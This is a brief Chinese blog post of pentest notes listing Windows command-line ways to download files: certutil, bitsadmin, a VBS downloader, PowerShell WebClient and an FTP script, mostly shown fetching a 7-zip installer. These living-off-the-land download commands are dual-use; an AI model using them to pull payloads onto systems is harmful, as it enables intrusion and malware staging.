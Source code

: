 ```yaml
---
layout: post
title: WINDOWS CMD 命令行下载文件的几种方法
date: '2020-10-01 06:24:00'
tags:
- pentest
- windows
- cmd
- lolbin
- hash-import-2023-03-22-16-36
---
```


## certutil

    $ certutil.exe -urlcache -split -f http://7-zip.org/a/7z1604-x64.exe 7zip.exe

## bitsdmin

    $ bitsadmin /transfer taskname http://7-zip.org/a/7z1604-x64.exe c:\temp\7zip.exe

### Copy file

    $ bitsadmin /create taskname
    $ bitsadmin /addfile taskname c:\temp\7zip.exe c:\7zip.exe
    $ bitsadmin /resume taskname
    $ bitsadmin /complete taskname

## vbs

Windows 10 未测试成功。

    # 用echo写入
    On Error Resume Next
    Dim iRemote,iLocal
    iLocal = LCase(WScript.Arguments(1))
    iRemote = LCase(WScript.Arguments(0))
    Set xPost = createObject("Microsoft.XMLHTTP")
    xPost.Open "GET",iRemote,0
    xPost.Send()
    Set sGet = createObject("ADODB.Stream")
    sGet.Mode = 3
    sGet.Type = 1
    sGet.Open()
    sGet.Write(xPost.responseBody)
    sGet.SaveToFile iLocal,2

    $ cscript ff.vbs http://7-zip.org/a/7z1604-x64.exe 7zip.exe

## powershell

    $ powershell (new-object System.Net.WebClient).DownloadFile( 'http://7-zip.org/a/7z1604-x64.exe','c:\temp\7zip.exe')

## ftp

    $ echo open 8.8.8.8 > a.txt & echo get fuck.exe>>a.txt & echo bye>>a.txt
    $ ftp -A -s:a.txt

> [Bitsadmin.exe](https://lolbas-project.github.io/lolbas/Binaries/Bitsadmin/)

> [Windows for Pentester: BITSAdmin](https://www.hackingarticles.in/windows-for-pentester-bitsadmin/)

> [cmd 环境下载文件的几种方法](https://www.jianshu.com/p/afb1e7b8acaf)


